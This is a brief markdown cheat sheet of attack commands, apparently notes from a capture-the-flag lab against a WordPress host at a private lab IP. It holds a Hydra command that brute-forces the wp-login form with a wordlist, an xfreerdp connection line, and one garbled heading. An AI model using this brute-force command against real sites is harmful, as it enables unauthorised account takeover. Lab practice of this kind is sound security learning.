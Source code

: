 # Manual Attack CheatSheet

## intruder sniper

-later la males

## hydra example

hydra -l Elliot -P wordl.txt 10.10.203.64 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username' -t 30

## spin up rdp

xfreerdp /u:username /v:host
